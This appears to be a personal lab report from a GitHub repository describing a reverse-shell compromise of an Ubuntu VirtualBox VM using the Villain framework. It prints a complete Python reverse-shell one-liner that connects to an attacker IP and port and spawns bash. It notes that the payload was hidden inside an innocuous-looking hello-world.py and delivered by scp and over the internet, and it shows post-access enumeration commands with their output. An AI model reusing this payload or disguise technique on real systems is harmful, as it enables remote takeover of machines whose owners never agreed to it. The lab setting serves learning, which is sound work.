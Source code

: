 # Villain Framework Reverse Shell Report

## ⚙️ Setup Info
- **Payload:** `linux/reverse_tcp/python3 lhost=192.168.50.139`
- **LHOST:** 192.168.50.139
- **LPORT:** 4443
- **Target OS:** Linux (Zwi-VirtualBox)
- **Target User:** zwi
- **Active Shell Session:** 993b09-113ed4-14ec79

## 🔁 Payload Delivery Method
Reverse shell executed directly on the target VM using:

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.50.139",4443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```
- Additionally, the payload was embedded in a seemingly harmless file (hello-world.py) and sent to the target via scp as well as over the internet.

- Villain framework recognized the session as 993b09-113ed4-14ec79.

- Session established at 2025-08-14 14:49:13.

## 🖥️ Captured Info

- Hostname: Zwi-VirtualBox
- IP Address: 192.168.50.14
- Logged-in User: zwi
- OS Type: Linux

## 🔎 Enumeration and Proof of Access

- uname -a  //Discovering system information
    - Linux Zwi-VirtualBox 6.11.0-24-generic #24-Ubuntu SMP PREEMPT_DYNAMIC Fri Mar 14 18:13:56 UTC 2025 x86_64 x86_64 x86_64 GNU/Linux

- cat /etc/os-release //os details

```
    PRETTY_NAME="Ubuntu 24.10"
    NAME="Ubuntu"
    VERSION_ID="24.10"
    VERSION="24.10 (Oracular Oriole)"
    VERSION_CODENAME=oracular
    ID=ubuntu
    ID_LIKE=debian
    HOME_URL="https://www.ubuntu.com/"
    SUPPORT_URL="https://help.ubuntu.com/"
    BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
    PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
    UBUNTU_CODENAME=oracular
    LOGO=ubuntu-logo
```
- whoami
    - zwi

## Screenshots
![Screenshot-1](<screenshots/Screenshot 2025-08-15 010438.png>)

![Screenshot-2](<screenshots/Screenshot 2025-08-15 010520.png>)

![Screenshot-3](<screenshots/Screenshot 2025-08-15 010815.png>)

Displaying message in target VM
![Screenshot-4](<screenshots/Screenshot 2025-08-15 003219.png>)

#### Note: Detailed screenshots are provided in the screenshots folder.